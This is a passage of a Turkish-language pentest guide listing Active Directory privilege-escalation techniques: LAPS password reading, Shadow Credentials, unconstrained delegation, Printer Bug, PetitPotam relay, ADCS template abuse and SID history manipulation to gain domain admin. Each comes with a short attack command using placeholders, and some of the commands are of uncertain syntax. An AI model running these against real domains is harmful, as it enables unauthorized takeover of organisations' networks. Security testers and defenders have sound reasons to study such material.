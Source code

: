 7. **LAPS zafiyetlerini kullan:**
   - `Get-AdmPwdPassword`

8. **Shadow Credentials saldırılarını dene:**
   - `Whisker`

9. **Delegation zafiyetlerini analiz et:**
   - `Get-DomainComputer -Unconstrained`

---

## 4. Sonuç

Bu rehber, Active Directory ortamlarında yetki yükseltme sürecinde kullanılabilecek yöntemlerin kapsamlı bir listesini sunar. Her adım dikkatli bir şekilde uygulanmalı ve zafiyetler etkin bir şekilde değerlendirilmelidir.

---

## 5. Ekstra Zafiyetler ve Teknikler

### 5.1. Printer Bug (MS-RPRN) Kullanımı
**Amaç:** Yazıcı protokolü zafiyetini kullanarak hedef sistemde yetki yükseltme.

```powershell
Invoke-PrinterBug -Target <target_dc> -Credential <credentials>
```

### 5.2. PetitPotam Saldırısı
**Amaç:** Windows işletim sistemlerindeki MS-EFSRPC zafiyetini kullanarak NTLM relay saldırısı gerçekleştirmek.

```bash
python3 PetitPotam.py -d <domain> -u <user> -p <password> -t <target_dc>
```

### 5.3. Shadow Attack (ADCS)
**Amaç:** Active Directory Certificate Services (ADCS) zafiyetlerini kullanarak saldırı.

```powershell
Get-ADCSCertificateTemplate
Request-Certificate -Template <template_name>
```

### 5.4. SID History Manipülasyonu
**Amaç:** SID history özelliğini kullanarak bir kullanıcıyı domain admin yetkileriyle donatmak.

```powershell
Set-DomainObject -Identity <object> -Property sidHistory -Value <sid>
```

---

## 6. Post-Exploitation Adımları
